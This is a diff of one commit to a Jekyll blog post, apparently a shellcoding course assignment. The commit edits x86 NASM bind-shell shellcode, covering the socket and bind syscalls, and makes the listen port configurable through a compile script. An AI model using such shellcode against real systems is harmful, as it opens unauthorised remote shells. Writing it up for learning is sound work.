

Before and after one commit to Minfanger101/sm00v.github.io, a Jekyll site: the page built from _posts/2019-10-19-assignment_1.md, in a window 1280 px wide and 1400 px high, scrolled down 7307 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
blog update

````diff
--- a/_posts/2019-10-19-assignment_1.md
+++ b/_posts/2019-10-19-assignment_1.md
@@ -244,7 +244,8 @@ int 0x80 		; Execute SHELL
 
 The final code snippet was modified after having found null bytes in the disassembly.
 I resolved this by chaning all the mov instructions from the 32 bit register to the
-lower 16 bits eg. eax > ax or the lower 8 bits al.
+lower 16 bits eg. eax > ax or the lower 8 bits al. Also added is `LISTEN_PORT` which
+allows port customization at build time.
 
 ```nasm
 ; shell_bind_tcp.nasm
@@ -264,16 +265,16 @@ _start:         ;
         mov ax, 0x167   ; socket syscall
         mov bl, 2       ; socket_family=AF_INET (0x2)
         mov cl, 1       ; socket_type=SOCK_STREAM (0x1)
-        mov dl, 0       ; protocol=IPPROTO_IO (0x0) [edx was already 0]
+        	        ; protocol=IPPROTO_IO (0x0) [edx was already 0]
         int 0x80        ; interrupt
 
         ;bind
         mov esi, eax     ; store sockfd in esi for later use
         push esi         ; store sockfd on stack
-        mov ax, 0x169   ; bind syscall
+        mov ax, 0x169    ; bind syscall
         pop ebx          ; pop sockfd off stack into ebx
         push edi         ; push 0x00000000 (0.0.0.0) / sin.addr [last arg] to stack
-        push word 0x5c11 ; push port 1337 to stack / sin_port
+        push word LISTEN_PORT ; push custom port to stack / sin_port
         push word 0x0002 ; push AF_INET/IPV4 [2] to stack / sin_family
         mov ecx, esp     ; mov pointer of stack to ecx
         mov dl, 0x10     ; mov 16 bit address length to edx
@@ -330,7 +331,8 @@ as the second arguement: `./compile.sh bind_shell 4444`.
 #!/bin/bash
 
 echo '[+] Assembling with Nasm ... '
-nasm -f elf32 -DLISTEN_PORT=$2 -o $1.o $1.nasm
+port=$(python -c "import socket; print(socket.htons($2))")
+nasm -f elf32 -o $1.o -DLISTEN_PORT=$port $1.nasm
 
 echo '[+] Linking ...'
 #ld -z execstack -o $1 $1.o
````
Also changed, not shown: other parts of _posts/2019-10-19-assignment_1.md (+1 -1 lines).
